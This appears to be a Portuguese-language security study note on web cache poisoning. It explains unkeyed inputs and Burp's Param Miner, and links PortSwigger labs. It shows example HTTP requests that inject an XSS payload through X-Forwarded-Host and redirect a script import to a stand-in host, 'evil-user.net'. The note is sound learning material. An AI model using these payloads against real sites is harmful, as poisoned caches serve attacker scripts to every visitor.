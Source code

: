 #web #vuln

O web cache serve para diminuir a carga de trabalho de um servidor, reduzindo o número de requisições duplicadas ao salvar uma cópia de uma resposta no cache. Quando o cache recebe uma requisição HTTP, ele verifica se existe uma resposta que serve para essa requisição através da cache key, formada por componentes do header. Componentes do header que não são inclusos na key são chamados de "unkeyed".

O web cache poisoning possui três passos:
1. Identificar unkeyed inputs
	1. A extensão **Param Miner** do Burp (BApp Store) automatiza isso mas é importante adicionar a opção para criar um *cache buster* a cada requisição para não prejudicar outros usuários ou o site.
2. Descobrir como obter uma resposta do backend com um payload crítico
3. Garantir que essa resposta seja armazenada em cache

## Explorando falhas

### [[XSS]]

Esse é a forma mais comum, quando um unkeyed input é refletida na resposta sem sanitização adequada. Por exemplo:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: innocent-website.co.uk 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Neste caso o valor do **X-Forwarded-Host** é usado na url da resposta para gerar uma imagem. Colocando um script em seu lugar:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Neste exemplo, todos usuários que entrar em region=uk vai cair nesse script.

### Importações de recursos inseguras

Semelhante a situação anterior, ao descobrir que X-Forwarded-Host  é uma unkeyed input um possível teste seria colocar o seu domínio com um js que ao ser importado pela página ele irá executar.

```
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net

HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

Lab: [[Web cache poisoning - with an unkeyed header]]
### Cookie handling

Há situações que valores que estão no cookie não são usados no cache key, sendo alvo de web cache poisoning

Lab: [[Web cache poisoning - unkeyed cookie]]

### [[DOM-Based]] 

Muitos websites usam JS acessar dados de maneira insegura e lançam no HTML.

Lab: [[Web cache poisoning - DOM-based]]

## Referências
https://portswigger.net/web-security/web-cache-poisoning
